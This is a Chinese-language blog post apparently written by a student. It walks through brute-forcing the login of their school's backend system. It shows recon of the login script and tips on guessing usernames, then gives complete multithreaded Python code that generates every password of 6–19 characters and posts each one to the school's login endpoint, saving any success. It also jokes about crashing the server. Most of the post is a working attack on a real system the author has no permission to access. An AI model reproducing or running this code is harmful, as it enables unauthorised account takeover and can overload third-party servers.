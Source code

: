 ```yaml
---
title: 「危」暴力攻入学校的后台系统
date: "2021-05-29"
categories: 日常
heroImg: https://www.hualigs.cn/image/60b24cbc1d501.jpg
---
```


危险操作，请酌情采用，本文仅提供暴力破解的思路，从一个实例中学习

本文不是专门针对学校，只是因为学校的服务器防御力比较高，在受到攻击的时候会很自觉地返回 **服务器压力过大**，即使从理论上来讲给埃拉两三年的时间可以破解进去，但是学校的响应速度也真的是感人，是个人都没有这种耐心（毕竟我没有那么多钱去应酬云服务器，而且浪费时间在这种无价值的地方也不是上策）

生成、创建进程、发送、等返回、关闭，一气呵成

## 侦察任务，勘探地形

如果你仔细发掘一下终端，你会发现几个重要的入口，埃拉这里是 `/theme/js/login.js` 的 Javascript 文件

![](https://www.hualigs.cn/image/60b25080753d8.jpg)

然后打开它来研究研究，你会发现存储用户名的变量竟然叫 `usrname`，密码是 `passwd`，并且序列化后就毫不犹豫地 POST 出去了，那么我们自己用 Postman 来试试看行不行

![](https://www.hualigs.cn/image/60b250ffbdabb.jpg)

然后装模做样地写好要传过去的数据（`学生会1` 这个用户名是埃拉通过小道消息得来的，通常你们可以试试看 admin 之类的）

![](https://www.hualigs.cn/image/60b2522570d02.jpg)

然后我们可以看到 `<p class="error">登录失败，密码错误.</p>` 这样的返回值（如果用户名不存在则会直接提示 `用户不存在`），现在我们就大概知道了几个重要的信息：

- 被攻击者的 URL
- 需要提供的数据
- 返回的数据

## 通过字典生成密码

```python
import itertools as its

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@." # 你觉得可能出现的字符，密码多为 ASCII 码字符
    count=0
    for num in range(6,20): # 指定密码位数，这里是从 6~20 位
        keys=its.product(words,repeat=num)
        for key in keys:
            print("".join(key)) # 此时 "".join(key) 即为生成的密码
            count += 1
```

## 发送数据，处理返回值

```python
import requests
from bs4 import BeautifulSoup

def inject(passwd): # 这里传入刚刚生成的密码
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxx.php/base/login'  # 这里屏蔽一下 ipv4，免得学校找我麻烦
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "", # 问问你高二高三的学长，他们可能会告诉你用户名
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml') # 使用 bs4 对返回的 html 进行解析
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.": # 剖析 html，提取出这个返回信息，如果不是这个返回信息，那就对了（因为用户名是已知的（对埃拉而言））
            print("[√ 成功破解] The PASSWD is '"+ passwd +"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd +"\n") # 保存正确的密码
                file.close()
        else:
            print("[× 错误] "+passwd+"\n") # 输出错误的密码
    except:
        print("[× 异常] "+passwd+"\n") # 抛出异常
```

## 提升破解效率

如果我们只是使用刚刚的方法，那么每一次的破解都会在上一个破解完成后才进行，这样会 **很慢很慢**，所以我们可以使用多线程来克服这个问题，最终的代码如下

```python
"""
🍀 本代码理论上可行，但是需要充足的时间，起码三年吧，不取决于你的算力，而是他们的反应能力（恕我直言，我实在没见过这么垃圾的服务器）
【本代码在正常情况下禁止运行（除非迫不得已），否则后果自负！】
如果你要问我为什么搞这个，那么就问问考试院为什么要加 Python，以及，学校图书馆为什么教会了我爬虫和数据解析
"""
import requests
from bs4 import BeautifulSoup
import itertools as its
import _thread
import time

def inject(passwd,thread_name):
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxxx.php/base/login'
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "",
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml')
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.":
            print("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
                file.close()
        else:
            print("[× 错误] "+passwd+" 线程名："+thread_name+"\n")
    except:
        print("[× 异常] "+passwd+" 线程名："+thread_name+"\n")
    _thread.exit() # 退出当前线程

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@."
    count=0
    for num in range(6,20):
        keys=its.product(words,repeat=num)
        for key in keys:
            _thread.start_new_thread( inject, ("".join(key), "Thread-"+str(count), ) )
            time.sleep(0.05) # 如果你调成更小的数值，你就等校领导找上门来吧，因为服务器会直接崩溃！
            count += 1

if __name__ == "__main__":
    crack()
```

请注意控制好线程创建速度！如果你设置得太小，就算你的计算机承受的住，人家的服务器可能承受不住~

OK，就这么多了，同样的代码我已经发布到 Github Gist 上，可以进行查阅！🍀后续可能会再出一些克服验证码的方案！